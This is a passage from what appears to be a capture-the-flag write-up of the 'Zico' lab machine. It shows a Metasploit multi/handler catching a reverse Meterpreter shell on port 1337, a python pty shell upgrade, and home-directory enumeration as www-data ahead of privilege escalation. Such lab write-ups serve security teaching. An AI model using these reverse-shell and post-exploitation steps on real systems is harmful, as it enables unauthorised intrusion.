 %%%%%%%%%%%% %%%%     %%%%%    %%  %%   %    %%  %%%%  %%%%   %%%   %%%     %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%%%%% %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%          %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


       =[ metasploit v4.16.65-dev                         ]
+ -- --=[ 1780 exploits - 1016 auxiliary - 308 post       ]
+ -- --=[ 538 payloads - 41 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use multi/handler
semsf exploit(multi/handler) > set LPORT 1337
LPORT => 1337
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.0.4:1337 
[*] Sending stage (179779 bytes) to 10.0.0.8
[*] Meterpreter session 3 opened (10.0.0.4:1337 -> 10.0.0.8:54453) at 2018-07-18 11:49:29 -0400

meterpreter > shell
Process 1396 created.
Channel 1 created.
cd /
python -c 'import pty;pty.spawn("/bin/bash")'
{% endhighlight %}

Now we just have to escalate to another user. I decided to firstly, check out the home directory, which will show what other users are on the system. 

{% highlight text %}
www-data@zico:/$ cd /home
cd /home
www-data@zico:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root root 4096 Jun  8  2017 .
drwxr-xr-x 24 root root 4096 Jun  1  2017 ..
drwxr-xr-x  6 zico zico 4096 Jun 19  2017 zico
www-data@zico:/home$ cd zico
cd zico
www-data@zico:/home/zico$ ls -la
ls -la
total 9244
drwxr-xr-x  6 zico zico    4096 Jun 19  2017 .
drwxr-xr-x  3 root root    4096 Jun  8  2017 ..
-rw-------  1 zico zico     912 Jun 19  2017 .bash_history
-rw-r--r--  1 zico zico     220 Jun  8  2017 .bash_logout
-rw-r--r--  1 zico zico    3486 Jun  8  2017 .bashrc
-rw-r--r--  1 zico zico     675 Jun  8  2017 .profile
drw-------  2 zico zico    4096 Jun  8  2017 .ssh
-rw-------  1 zico zico    3509 Jun 19  2017 .viminfo
-rw-rw-r--  1 zico zico  504646 Jun 14  2017 bootstrap.zip
drwxrwxr-x 18 zico zico    4096 Jun 19  2017 joomla
drwxrwxr-x  6 zico zico    4096 Aug 19  2016 startbootstrap-business-casual-gh-pages
-rw-rw-r--  1 zico zico      61 Jun 19  2017 to_do.txt
drwxr-xr-x  5 zico zico    4096 Jun 19  2017 wordpress
-rw-rw-r--  1 zico zico 8901913 Jun 19  2017 wordpress-4.8.zip
-rw-rw-r--  1 zico zico    1194 Jun  8  2017 zico-history.tar.gz
{% endhighlight %}
